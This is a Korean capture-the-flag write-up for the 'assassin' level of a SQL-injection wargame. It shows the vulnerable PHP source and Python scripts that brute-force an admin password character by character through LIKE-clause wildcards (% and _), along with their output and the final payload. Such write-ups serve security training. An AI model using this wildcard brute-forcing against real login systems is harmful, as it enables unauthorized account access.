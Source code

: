 # assassin

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- 작은 따옴표를 필터링한다.

## 3. Solution
쿼리문을 잘 보면, `like`구문이 쓰인 것을 볼 수 있다.
이는 `%`를 통해 부분 검색을 할 수 있다는 것을 의미한다.


직접 python 스크립트로 대입시켜본 결과, guest와 중복되는 부분이 있음을 인지하였다.
따라서, 여러 부분으로 나누어, 하나씩 찾아봤다.


### a. 첫 번째 자리

변수명 | 값
---|---:
`pw` | `i`%


guest와 겹치는 부분이 존재하여, "Hello admin"이 출력되지 않는것으로 판단했다.
따라서, "Hello guest"또한 수집하며 차근차근 찾아갔다.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}
find_ad = 0

# stage 1
print("stage 1...")
for i in range(48, 123):
    url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=%s%%" % chr(i)
    res = requests.get(url, cookies=cookie)

    if "Hello admin" in res.text:
        print(url.split('?')[1],"-> admin")
        find_ad = 1
        break
    
    elif "Hello guest" in res.text:
        print(url.split('?')[1],"-> guest")
```

결과는 다음과 같다.
```
stage 1...
pw=9% -> guest
pw=_% -> guest
```

일단 숫자`9`를 선택하여 진행시켰다.

---



### b. 두 번째 자리

변수명 | 값
---|---:
`pw` | 9`i`%


스크립트는 위 a. 이하에 붙였으므로, 추가된 내용만 보여주겠다.

```python
# stage 2
print("\nstage 2...")
if not find_ad:
    for i in range(48, 123):
        url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=9%s%%" % chr(i)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            print(url.split('?')[1],"-> admin")
            find_ad = 1
            break

        elif "Hello guest" in res.text:
            print(url.split('?')[1],"-> guest")
```

결과는 다음과 같다.
```
stage 2...
pw=90% -> guest
pw=9_% -> guest
```

여기서도 `_`가 나온다. 하지만, 숫자 0을 선택해봤다.

---



### c. 세 번째 자리

변수명 | 값
---|---:
`pw` | 90`i`%



```python
# stage 3
print("\nstage 3...")
if not find_ad:
    for i in range(48, 123):
        url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=90%s%%" % chr(i)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            print(url.split('?')[1],"-> admin")
            find_ad = 1
            break

        elif "Hello guest" in res.text:
            print(url.split('?')[1],"-> guest")
```

결과는 다음과 같다.
```
stage 3...
pw=902% -> admin
```

드디어 guest와 겹치지 않는 admin pw를 찾아냈다.


끝내기 전에, `_`가 걸렸던 원인을 알아보자.
`_`는 mysql에서 `%`와 같은 와일드 카드이다.<br>
뭔지모르는 한자리 문자를 표현할때 사용한다.
`'ad123'` &rarr; `'ad_23'`, `'ad1_3'`, `'ad12_'`



나온 파라미터 값 `902%`를 넣어주면, 풀리게 된다.